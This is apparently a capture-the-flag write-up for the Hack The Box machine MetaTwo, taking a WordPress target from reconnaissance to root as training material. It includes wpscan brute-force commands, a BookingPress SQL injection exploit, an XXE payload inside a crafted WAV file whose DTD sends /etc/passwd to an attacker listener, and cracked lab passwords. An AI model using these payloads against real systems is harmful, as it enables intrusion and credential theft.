**Start 08:39 22-09-2025**

---
```
Scope:
10.10.11.186
```
# Recon
## Nmap

```bash
sudo nmap -sV -sC -sT -p- metatwo.htb -T5 --min-rate=5000 -vvvv -Pn

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp?    syn-ack
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     syn-ack OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    syn-ack nginx 1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/
```

## 80/TCP - HTTP

I used `gobuster` to enumerate the website and noticed that it was running **WordPress**:



Heading over to the site we notice a simple landing page:



I then headed over to `/wp-admin` to try and login using default creds:





This tells us that the user *admin* does exist. 

:::note
We can possibly brute-force it in case `xmlrpc` is enabled
:::

### wpscan



Running `wpscan` we notice that it's in fact enabled meeaning we can try to throw a wordlist against it. But first we'll check further down for the results.



:::note
The `twentytwentyone` theme is vulnerable, once we're inside we can get a webshell/reverse shell by modifying the `404.php` page in order to achieve the desired results.
:::

### brute forcing xmlrpc - FAIL

Using the following command I try to brute force the *admin* credentials:

```bash
sudo wpscan --password-attack xmlrpc -t 20 -U admin -P /usr/share/wordlists/rockyou.txt --url http://metapress.htb/ --ignore-main-redirect 
```



This took way too long however so naturally I continued on while leaving the brute force running.

I also found another user using the following command:

```bash
sudo wpscan --enumerate u -t 20 --url http://metapress.htb/ --ignore-main-redirect
```



I then tried out brute forcing *manager* as well.

### XSS in search parameter - FAIL

Back on the main page I found a **Search** input bar:


Here I could enter anything I wanted and got the following result:



Analyzing the request further in `burp` yielded this result:



I tried to see whether this was injectable using **XSS**:



I then tried out `xsstrike` and got some false positives which didn't end up working.



Moving on

### Page source enum

Clearly I was still missing something so I went ahead and enumerated the other page that was accessible:



```bash
curl -s http://metapress.htb/events/ | grep plugins
```



Above I found another plugin that wasn't found by `wpscan` on the mainpage, namely **bookingpress-appointment-booking**.


I then looked up the version to see whether it's exploitable.



There's a PoC on `github` available.

# Foothold
## CVE-2022-0739 - PoC 

I went ahead and used [this PoC from github](https://github.com/destr4ct/CVE-2022-0739/blob/main/booking-press-expl.py):



As for the nonce it's mentioning, we can find it in this request:



Combining the two we get the following result:



We can try and crack these hashes.



### Hash cracking

We'll be using mode `400` as per the docs:







```
manager
partylikearockstar
```

We can now go ahead and use these creds to log in.



## CVE-2021-29447 - XXE

I started looking around for exploits for this **WordPress** instance: 



Clicking on it I read the following:



### PoC 

We'll basically need 2 files:

`malicious.wav`:

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.5:80/xxe.dtd'"'"'>%remote;%init;%trick;] >\x00'> malicious.wav
```

And `xxe.dtd`:

```xml
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#37; trick SYSTEM 'http://10.10.14.5/?p=%file;'>" >
```

We then go ahead and upload the file:



Once we click it we get the response:



Next up we can use the following script in order to decrypt the response:

```php
<?php

echo zlib_decode(base64_decode('jVRNj5swEL3nV3BspUSGkGSDj22lXjaVuum9MuAFusamNiShv74zY8gmgu5WHtB8vHkezxisMS2/8BCWRZX5d1pplgpXLnIha6MBEcEaDNY5yxxAXjWmjTJFpRfovfA1LIrPg1zvABTDQo3l8jQL0hmgNny33cYbTiYbSRmai0LUEpm2fBdybxDPjXpHWQssbsejNUeVnYRlmchKycic4FUD8AdYoBDYNcYoppp8lrxSAN/DIpUSvDbBannGuhNYpN6Qe3uS0XUZFhOFKGTc5Hh7ktNYc+kxKUbx1j8mcj6fV7loBY4lRrk6aBuw5mYtspcOq4LxgAwmJXh97iCqcnjh4j3KAdpT6SJ4BGdwEFoU0noCgk2zK4t3Ik5QQIc52E4zr03AhRYttnkToXxFK/jUFasn2Rjb4r7H3rWyDj6IvK70x3HnlPnMmbmZ1OTYUn8n/XtwAkjLC5Qt9VzlP0XT0gDDIe29BEe15Sst27OxL5QLH2G45kMk+OYjQ+NqoFkul74jA+QNWiudUSdJtGt44ivtk4/Y/yCDz8zB1mnniAfuWZi8fzBX5gTfXDtBu6B7iv6lpXL+DxSGoX8NPiqwNLVkI+j1vzUes62gRv8nSZKEnvGcPyAEN0BnpTW6+iPaChneaFlmrMy7uiGuPT0j12cIBV8ghvd3rlG9+63oDFseRRE/9Mfvj8FR2rHPdy3DzGehnMRP+LltfLt2d+0aI9O9wE34hyve2RND7xT7Fw=='));
```


:::tldr
Through the **XXE** vulnerability we were able to retrieve the `/etc/passwd` file and find the *jnelson* user.
:::

I then tried to retrieve the `id_rsa` from this user:



Unfortunately I did not get a valid response:



So I tried out the following (with some variations until it worked):





I then went ahead and pasted it inside the `decrypt.php` script again.



```
blog
635Aq@TdqrCwXFUZ
```

```
metapress.htb
9NYS_ii@FyL_p5M2NvJ
```

## 22/TCP - FTP

Using the latter creds we were indeed able to log into `ftp`:



Diving further into the `/mailer` directory we find:



Reading the `send_email.php` file we find a set of `SSH` creds for *jnelson*:



```
jnelson
Cb4_JmWM8zUZWMu@Ys
```

## SSH as jnelson



### user.txt

I was directly able to get the `user.txt` flag:



## Enumeration



Inside this `/home` directory however I was able to find some interesting stuff:



Checking the `root.pass` yields us a a PGP encrypted message.



:::question
So what is **passpie**? 


:::

Simply using the `passpie` command outputs `*****`.



Checking the version:



But this yields no PoC's, instead I copy over the `.keys` output in order to try and crack it.



# Privilege Escalation
## Hash cracking
### gpg2john



We can then crack it using `john`:


```
blink182
```

Using this passphrase we can gather all the creds:



```
root
p7qfAZt4_A1xo_0x
```

We can now use these creds to log in as *root*:



### root.txt





---

**Finished 11:06 22-09-2025**

[^Links]: [[Hack The Box]]

#XXE #Wordpress #CVE-2022-0739 #CVE-2021-29447 #gpg2john #passpie 
